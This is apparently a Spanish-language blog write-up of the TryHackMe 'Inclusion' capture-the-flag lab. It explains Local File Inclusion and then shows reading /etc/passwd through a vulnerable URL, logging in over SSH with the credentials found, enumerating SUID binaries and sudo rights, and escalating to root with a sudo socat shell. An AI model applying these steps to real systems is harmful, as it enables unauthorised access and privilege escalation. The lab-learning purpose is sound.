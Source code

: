 ```yaml
---
title: "tryhackme: LFI"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/lfi/logo.jpg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - LFI
  - Local File Inclusion
---
```


# Local File Inclusion

Esta técnica consiste en incluir ficheros locales, es decir, archivos que se encuentran en el mismo servidor de la web con 
este tipo de fallo (a diferencia de Remote File Inclusión *RFI* que incluye archivos alojados en otros servidores). 

Esto se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar 
funciones en PHP para incluir archivos.

### una definicion un poco menos tecnica

El ataque de inclusión de archivos locales es el que utiliza el que puede incluir cualquier archivo local, es decir, todos los 
archivos que están presentes en el servidor si el permiso es correcto en el archivo. 

## ¿Qué peligro representa esto si solo se incluyen ficheros que estén en el mismo servidor?

Un atacante podría modificar los parámetros de lo que se incluye, por ejemplo, podría indicarle al 
sitio web que se incluyan otros archivos que también están en el servidor, comprometiendo la seguridad del mismo por completo.

El archivo más común en Unix que podemor verificar es */etc/passwd*, tal ruta, es el archivo de contraseñas en sistemas linux

### vamos a la practica

al visitar la ruta http://10.10.194.21, para este caso es la de nuestra maquina

lo primero que vemos es una pagina de inicio, vemos un poco de teoria sobre *LFI* y *RFI*

![pagina de inicio](/assets/images/lfi/home.png)

ahora vamos ver un articulo 

![url aritulo](/assets/images/lfi/url.png)

vemos la url y probamos, la idea es visualizar el archivo de contraseñas de linux

![passwd lfi](/assets/images/lfi/passwd.png)


## Encontramos un usuario y contraseña, nos conectamos por SSH y buscamos las banderas

```bash
ssh falconfeast@10.10.194.21
falconfeast@10.10.194.21's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 16 00:54:02 IST 2021

  System load:  0.02              Processes:           85
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 68%               IP address for eth0: 10.10.194.21
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Tue Nov 16 00:52:53 2021 from 10.9.4.214
falconfeast@inclusion:~$ 
```

encontramos la _flag_ y la leemos

```bash
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
6x9xxx5x1x8xx7x4x7x9
```
ahora buscamos obtener privilegios *root*

```bash
falconfeast@inclusion:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/bin/fusermount
/bin/umount
/bin/ping
/bin/mount
/bin/su

falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
- el comando *sudo -l* lo que hace es, enumerar los privilegios del usuario o verifica un mando

vemos que podemos usar *socat* para elevar privilegios ![aqui](https://gtfobins.github.io/gtfobins/socat/) podemos leer un poco
respecto a ello



```bash
falconfeast@inclusion:~$ sudo /usr/bin/socat stdin exec:/bin/sh
script /dev/null -c bash
Script started, file is /dev/null
root@inclusion:~# whoami
root
```
ejecutamos *script /dev/null -c bash* y luego *CTRL + Z* para regresar a la _shell_

```bash
root@inclusion:/root# cat root.txt
xx96x1x4x4x4x5x5x9xx
```
listo, somos usuario *root* y tenemos la _flag_
